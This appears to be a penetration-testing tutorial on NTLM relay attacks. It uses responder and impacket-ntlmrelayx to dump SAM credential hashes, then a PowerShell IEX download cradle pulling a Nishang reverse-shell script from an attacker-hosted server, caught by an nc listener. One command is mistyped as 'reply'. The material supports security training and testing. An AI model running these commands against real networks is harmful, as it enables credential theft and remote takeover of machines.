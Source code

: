 ## IPV4 

To carry out this type of attack, the entire network must be poisoned in order to obtain the administrator credentials of a user and redirect them to the targets over which he/she has privileges. To do so, the tool responder is used to poison the network of resources not found and [**impacket-ntmlrelayx**](https://github.com/SecureAuthCorp/impacket/blob/3c6713e309cae871d685fa443d3e21b7026a2155/examples/ntlmrelayx.py) to redirect the credentials to the targets, once an administrator user tries to obtain an unavailable resource, the SAM of the target computer can be obtained.

```bash
responder -I ens33 -rdw
```

```bash
impacket-ntlmrelayx -tf target.txt -smb2support
```

The impacket-ntlmrelayx command sends a file with the ip addresses of the possible victims and supports version 2 of the SMB protocol. And it returns the result of the SAM where the credentials of the users are stored. 

![SAM impacket-ntlmrelayx](ntlmrelayx.png){: width="972" height="589" }
_SAM impacket-ntlmrelayx_

It is also possible to execute commands from the impacket-ntlmrelayx with the credentials provided, and to download a malicious script shared by the pentester, which allows the execution of a reverse shell. 

The responder tool is started, with the command:

```bash
reply -I ens33 -rdw
```

Start a Python server with the files from the folder containing the [**malicious script**](https://github.com/samratashok/nishang/blob/414ee1104526d7057f9adaeee196d91ae447283e/Shells/Invoke-PowerShellTcp.ps1), which sends a poweshell via TCP to the attacker, with the module `SimpleHTTPServer`.

```bash
python -m SimpleHTTPServer
```

The remote connection is expected on port 4444.

```bash
rlwrap nc -nlvp 4444
```

The impacket-ntlmrelayx is executed to perform the command passed, which downloads and interprets the malicious file seen above. Resulting in a command prompt on the machine.

```bash
impacket-ntlmrelayx -tf target.txt -smb2support -c "powershell IEX(New-Object Net.Webclient).downloadString('http://192.168.140.128:8000/powerscript.ps1')"
```

![Reverse shell ntlmrelay](reverse-ntlmrelayx.png){: width="972" height="589" }
_Reverse shell ntlmrelay_
